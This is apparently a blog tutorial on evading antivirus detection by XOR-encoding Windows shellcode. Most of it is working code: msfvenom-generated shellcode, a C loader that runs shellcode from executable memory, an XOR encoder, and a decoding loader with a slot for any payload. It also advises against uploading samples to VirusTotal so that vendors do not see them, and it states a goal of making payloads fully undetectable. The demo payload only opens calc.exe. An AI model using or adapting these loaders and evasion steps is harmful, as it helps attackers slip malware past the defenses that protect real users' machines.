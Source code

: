 ```yaml
---
layout: post
title: Antivirus Evasion - XOR Encryption
subtitle: Is It Still Detectable?
cover-img: /assets/img/evasion/xor/evasion-thumb.png
thumbnail-img: ""
tags: [security]
---
```

Hello Guys, In this tutorial, we will learn to bypass antivirus detection for payload execution. We will be using XOR encryption as an obfuscation technique.

The objective of this tutorial is to bypass maximum antivirus and not create a fully undetectable payload. Rather, we will follow a series of steps to make sure how it can be made FUD.

## What is XOR encryption?

In other encryption techniques, we encrypt the data (plaintext) with a key, and to get the original data back from ciphertext we perform a decryption process. 

But in XOR encryption, we encrypt the plaintext with a key to get ciphertext. The interesting fact is that to get the original data (plaintext) back, we re-encrypt the data with the same key used, i.e., the decryption process is itself encryption.

The below images might help you get an idea of how exactly XOR logic works.

![xor operation](../assets/img/evasion/xor/xor-operation.png)

![xor operation reverse](../assets/img/evasion/xor/xor-operation-reverse.png)

## Detection without XOR

For generating the shell code, we are using msfvenom. Before starting the actual antivirus evasion process using the XOR technique, let's check how many antivirus programs detect the payload without any evasion technique.

The msfvenom command to generate a shellcode that runs calc.exe is as follows:
~~~
msfvenom -p windows/x64/exec CMD=calc.exe -b "x00" -f c --platform Windows
~~~

The above command will generate shell code that executes on the x64 architecture.

The shellcode generated is as follow:
~~~
unsigned char buf[] =
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xd4\xdf\xdb\xf3\x0f\x6f\xb7\xfd\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x28\x97\x58\x17\xff\x87"
"\x77\xfd\xd4\xdf\x9a\xa2\x4e\x3f\xe5\xac\x82\x97\xea\x21\x6a"
"\x27\x3c\xaf\xb4\x97\x50\xa1\x17\x27\x3c\xaf\xf4\x97\x50\x81"
"\x5f\x27\xb8\x4a\x9e\x95\x96\xc2\xc6\x27\x86\x3d\x78\xe3\xba"
"\x8f\x0d\x43\x97\xbc\x15\x16\xd6\xb2\x0e\xae\x55\x10\x86\x9e"
"\x8a\xbb\x84\x3d\x97\x76\x96\xe3\x93\xf2\xdf\xe4\x37\x75\xd4"
"\xdf\xdb\xbb\x8a\xaf\xc3\x9a\x9c\xde\x0b\xa3\x84\x27\xaf\xb9"
"\x5f\x9f\xfb\xba\x0e\xbf\x54\xab\x9c\x20\x12\xb2\x84\x5b\x3f"
"\xb5\xd5\x09\x96\xc2\xc6\x27\x86\x3d\x78\x9e\x1a\x3a\x02\x2e"
"\xb6\x3c\xec\x3f\xae\x02\x43\x6c\xfb\xd9\xdc\x9a\xe2\x22\x7a"
"\xb7\xef\xb9\x5f\x9f\xff\xba\x0e\xbf\xd1\xbc\x5f\xd3\x93\xb7"
"\x84\x2f\xab\xb4\xd5\x0f\x9a\x78\x0b\xe7\xff\xfc\x04\x9e\x83"
"\xb2\x57\x31\xee\xa7\x95\x87\x9a\xaa\x4e\x35\xff\x7e\x38\xff"
"\x9a\xa1\xf0\x8f\xef\xbc\x8d\x85\x93\x78\x1d\x86\xe0\x02\x2b"
"\x20\x86\xbb\xb5\x6e\xb7\xfd\xd4\xdf\xdb\xf3\x0f\x27\x3a\x70"
"\xd5\xde\xdb\xf3\x4e\xd5\x86\x76\xbb\x58\x24\x26\xb4\x9f\x02"
"\x5f\x82\x9e\x61\x55\x9a\xd2\x2a\x02\x01\x97\x58\x37\x27\x53"
"\xb1\x81\xde\x5f\x20\x13\x7a\x6a\x0c\xba\xc7\xad\xb4\x99\x0f"
"\x36\xf6\x74\x0e\x20\x0e\x90\x6e\x03\xd4\xd3\xb1\xa7\xbe\xf3"
"\x0f\x6f\xb7\xfd";
~~~

We will use C lang for compiling the shellcode into an executable that can run on the x64 system.

The C lang template is as follows:
~~~c
#include <stdio.h>
#include <windows.h>
unsigned char buf[] =
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xd4\xdf\xdb\xf3\x0f\x6f\xb7\xfd\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x28\x97\x58\x17\xff\x87"
"\x77\xfd\xd4\xdf\x9a\xa2\x4e\x3f\xe5\xac\x82\x97\xea\x21\x6a"
"\x27\x3c\xaf\xb4\x97\x50\xa1\x17\x27\x3c\xaf\xf4\x97\x50\x81"
"\x5f\x27\xb8\x4a\x9e\x95\x96\xc2\xc6\x27\x86\x3d\x78\xe3\xba"
"\x8f\x0d\x43\x97\xbc\x15\x16\xd6\xb2\x0e\xae\x55\x10\x86\x9e"
"\x8a\xbb\x84\x3d\x97\x76\x96\xe3\x93\xf2\xdf\xe4\x37\x75\xd4"
"\xdf\xdb\xbb\x8a\xaf\xc3\x9a\x9c\xde\x0b\xa3\x84\x27\xaf\xb9"
"\x5f\x9f\xfb\xba\x0e\xbf\x54\xab\x9c\x20\x12\xb2\x84\x5b\x3f"
"\xb5\xd5\x09\x96\xc2\xc6\x27\x86\x3d\x78\x9e\x1a\x3a\x02\x2e"
"\xb6\x3c\xec\x3f\xae\x02\x43\x6c\xfb\xd9\xdc\x9a\xe2\x22\x7a"
"\xb7\xef\xb9\x5f\x9f\xff\xba\x0e\xbf\xd1\xbc\x5f\xd3\x93\xb7"
"\x84\x2f\xab\xb4\xd5\x0f\x9a\x78\x0b\xe7\xff\xfc\x04\x9e\x83"
"\xb2\x57\x31\xee\xa7\x95\x87\x9a\xaa\x4e\x35\xff\x7e\x38\xff"
"\x9a\xa1\xf0\x8f\xef\xbc\x8d\x85\x93\x78\x1d\x86\xe0\x02\x2b"
"\x20\x86\xbb\xb5\x6e\xb7\xfd\xd4\xdf\xdb\xf3\x0f\x27\x3a\x70"
"\xd5\xde\xdb\xf3\x4e\xd5\x86\x76\xbb\x58\x24\x26\xb4\x9f\x02"
"\x5f\x82\x9e\x61\x55\x9a\xd2\x2a\x02\x01\x97\x58\x37\x27\x53"
"\xb1\x81\xde\x5f\x20\x13\x7a\x6a\x0c\xba\xc7\xad\xb4\x99\x0f"
"\x36\xf6\x74\x0e\x20\x0e\x90\x6e\x03\xd4\xd3\xb1\xa7\xbe\xf3"
"\x0f\x6f\xb7\xfd"; // Replace Your Shell Code Here
int main()
{
 void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 memcpy(exec, buf, sizeof buf);
 ((void(*)())exec)();
 return 0;
}
~~~

We get the result, the calc.exe does gets executed.

![result without xor](../assets/img/evasion/xor/result-without-xor.png)

The compiled exe gets detected by 13 antivirus engines out of 40. 

![before xor](../assets/img/evasion/xor/before-xor.png)

{: .box-note}
**NOTE:** Never upload your samples to Virustotal, Use [AntiScan](https://antiscan.me/) or [KleenScan](https://www.kleenscan.com/index). 

## Detection with XOR


Let's try XOR encryption to see how many AVs it is able to bypass.

The C Lang template to generate XOR-ed shell code is as follows:
~~~c
#include <stdio.h>

unsigned char buf[] =
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xd4\xdf\xdb\xf3\x0f\x6f\xb7\xfd\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x28\x97\x58\x17\xff\x87"
"\x77\xfd\xd4\xdf\x9a\xa2\x4e\x3f\xe5\xac\x82\x97\xea\x21\x6a"
"\x27\x3c\xaf\xb4\x97\x50\xa1\x17\x27\x3c\xaf\xf4\x97\x50\x81"
"\x5f\x27\xb8\x4a\x9e\x95\x96\xc2\xc6\x27\x86\x3d\x78\xe3\xba"
"\x8f\x0d\x43\x97\xbc\x15\x16\xd6\xb2\x0e\xae\x55\x10\x86\x9e"
"\x8a\xbb\x84\x3d\x97\x76\x96\xe3\x93\xf2\xdf\xe4\x37\x75\xd4"
"\xdf\xdb\xbb\x8a\xaf\xc3\x9a\x9c\xde\x0b\xa3\x84\x27\xaf\xb9"
"\x5f\x9f\xfb\xba\x0e\xbf\x54\xab\x9c\x20\x12\xb2\x84\x5b\x3f"
"\xb5\xd5\x09\x96\xc2\xc6\x27\x86\x3d\x78\x9e\x1a\x3a\x02\x2e"
"\xb6\x3c\xec\x3f\xae\x02\x43\x6c\xfb\xd9\xdc\x9a\xe2\x22\x7a"
"\xb7\xef\xb9\x5f\x9f\xff\xba\x0e\xbf\xd1\xbc\x5f\xd3\x93\xb7"
"\x84\x2f\xab\xb4\xd5\x0f\x9a\x78\x0b\xe7\xff\xfc\x04\x9e\x83"
"\xb2\x57\x31\xee\xa7\x95\x87\x9a\xaa\x4e\x35\xff\x7e\x38\xff"
"\x9a\xa1\xf0\x8f\xef\xbc\x8d\x85\x93\x78\x1d\x86\xe0\x02\x2b"
"\x20\x86\xbb\xb5\x6e\xb7\xfd\xd4\xdf\xdb\xf3\x0f\x27\x3a\x70"
"\xd5\xde\xdb\xf3\x4e\xd5\x86\x76\xbb\x58\x24\x26\xb4\x9f\x02"
"\x5f\x82\x9e\x61\x55\x9a\xd2\x2a\x02\x01\x97\x58\x37\x27\x53"
"\xb1\x81\xde\x5f\x20\x13\x7a\x6a\x0c\xba\xc7\xad\xb4\x99\x0f"
"\x36\xf6\x74\x0e\x20\x0e\x90\x6e\x03\xd4\xd3\xb1\xa7\xbe\xf3"
"\x0f\x6f\xb7\xfd"; // Place Previous Generated Shell Code Here

int main()
{
 char key = 'M';
 int i = 0;
 for (i; i<sizeof(buf); i++)
 {
  printf("\\x%02x",buf[i]^key);
 }
 
}
~~~
You can change the value of the key as per your needs (it can only be a single character).

The XOR-ed shell code is
~~~ 
\x05\x7c\x84\x05\xcc\xa4\x90\xb2\xb2\xb2\x05\xc0\x48\xa2\xb2\xb2\xb2\x05\xf6\x99\x92\x96\xbe\x42\x22\xfa\xb0\x05\x7c\x15\x6a\x05\x60\xb5\xb2\xb2\xb2\xaf\xb9\x65\xda\x15\x5a\xb2\xca\x3a\xb0\x99\x92\xd7\xef\x03\x72\xa8\xe1\xcf\xda\xa7\x6c\x27\x6a\x71\xe2\xf9\xda\x1d\xec\x5a\x6a\x71\xe2\xb9\xda\x1d\xcc\x12\x6a\xf5\x07\xd3\xd8\xdb\x8f\x8b\x6a\xcb\x70\x35\xae\xf7\xc2\x40\x0e\xda\xf1\x58\x5b\x9b\xff\x43\xe3\x18\x5d\xcb\xd3\xc7\xf6\xc9\x70\xda\x3b\xdb\xae\xde\xbf\x92\xa9\x7a\x38\x99\x92\x96\xf6\xc7\xe2\x8e\xd7\xd1\x93\x46\xee\xc9\x6a\xe2\xf4\x12\xd2\xb6\xf7\x43\xf2\x19\xe6\xd1\x6d\x5f\xff\xc9\x16\x72\xf8\x98\x44\xdb\x8f\x8b\x6a\xcb\x70\x35\xd3\x57\x77\x4f\x63\xfb\x71\xa1\x72\xe3\x4f\x0e\x21\xb6\x94\x91\xd7\xaf\x6f\x37\xfa\xa2\xf4\x12\xd2\xb2\xf7\x43\xf2\x9c\xf1\x12\x9e\xde\xfa\xc9\x62\xe6\xf9\x98\x42\xd7\x35\x46\xaa\xb2\xb1\x49\xd3\xce\xff\x1a\x7c\xa3\xea\xd8\xca\xd7\xe7\x03\x78\xb2\x33\x75\xb2\xd7\xec\xbd\xc2\xa2\xf1\xc0\xc8\xde\x35\x50\xcb\xad\x4f\x66\x6d\xcb\xf6\xf8\x23\xfa\xb0\x99\x92\x96\xbe\x42\x6a\x77\x3d\x98\x93\x96\xbe\x03\x98\xcb\x3b\xf6\x15\x69\x6b\xf9\xd2\x4f\x12\xcf\xd3\x2c\x18\xd7\x9f\x67\x4f\x4c\xda\x15\x7a\x6a\x1e\xfc\xcc\x93\x12\x6d\x5e\x37\x27\x41\xf7\x8a\xe0\xf9\xd4\x42\x7b\xbb\x39\x43\x6d\x43\xdd\x23\x4e\x99\x9e\xfc\xea\xf3\xbe\x42\x22\xfa\xb0\x4d
~~~

The C lang code to run the XOR-ed shellcode is
~~~c
#include <stdio.h>
#include <windows.h>
unsigned char buf[] = "\x05\x7c\x84\x05\xcc\xa4\x90\xb2\xb2\xb2\x05\xc0\x48\xa2\xb2\xb2\xb2\x05\xf6\x99\x92\x96\xbe\x42\x22\xfa\xb0\x05\x7c\x15\x6a\x05\x60\xb5\xb2\xb2\xb2\xaf\xb9\x65\xda\x15\x5a\xb2\xca\x3a\xb0\x99\x92\xd7\xef\x03\x72\xa8\xe1\xcf\xda\xa7\x6c\x27\x6a\x71\xe2\xf9\xda\x1d\xec\x5a\x6a\x71\xe2\xb9\xda\x1d\xcc\x12\x6a\xf5\x07\xd3\xd8\xdb\x8f\x8b\x6a\xcb\x70\x35\xae\xf7\xc2\x40\x0e\xda\xf1\x58\x5b\x9b\xff\x43\xe3\x18\x5d\xcb\xd3\xc7\xf6\xc9\x70\xda\x3b\xdb\xae\xde\xbf\x92\xa9\x7a\x38\x99\x92\x96\xf6\xc7\xe2\x8e\xd7\xd1\x93\x46\xee\xc9\x6a\xe2\xf4\x12\xd2\xb6\xf7\x43\xf2\x19\xe6\xd1\x6d\x5f\xff\xc9\x16\x72\xf8\x98\x44\xdb\x8f\x8b\x6a\xcb\x70\x35\xd3\x57\x77\x4f\x63\xfb\x71\xa1\x72\xe3\x4f\x0e\x21\xb6\x94\x91\xd7\xaf\x6f\x37\xfa\xa2\xf4\x12\xd2\xb2\xf7\x43\xf2\x9c\xf1\x12\x9e\xde\xfa\xc9\x62\xe6\xf9\x98\x42\xd7\x35\x46\xaa\xb2\xb1\x49\xd3\xce\xff\x1a\x7c\xa3\xea\xd8\xca\xd7\xe7\x03\x78\xb2\x33\x75\xb2\xd7\xec\xbd\xc2\xa2\xf1\xc0\xc8\xde\x35\x50\xcb\xad\x4f\x66\x6d\xcb\xf6\xf8\x23\xfa\xb0\x99\x92\x96\xbe\x42\x6a\x77\x3d\x98\x93\x96\xbe\x03\x98\xcb\x3b\xf6\x15\x69\x6b\xf9\xd2\x4f\x12\xcf\xd3\x2c\x18\xd7\x9f\x67\x4f\x4c\xda\x15\x7a\x6a\x1e\xfc\xcc\x93\x12\x6d\x5e\x37\x27\x41\xf7\x8a\xe0\xf9\xd4\x42\x7b\xbb\x39\x43\x6d\x43\xdd\x23\x4e\x99\x9e\xfc\xea\xf3\xbe\x42\x22\xfa\xb0\x4d"; // XOR-ed shellcode Here
int main()
{
 char key = 'M';
 int i = 0;
 for (i; i<sizeof(buf) - 1; i++)
 {
  buf[i] = buf[i]^key;
 }
 
 
 void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 memcpy(exec, buf, sizeof buf);
 ((void(*)())exec)();
 return 0;
 
}
~~~
We get the result, the calc.exe does gets executed.

![result with xor](../assets/img/evasion/xor/result-with-xor.png)

Let's check how many antivirus programs detect the encrypted payload using XOR.

![after xor](../assets/img/evasion/xor/after-xor.png)

We were able to reduce the detection rate by almost 50% using a simple technique.

In the coming tutorial, we will explore different evasion techniques to make it FUD.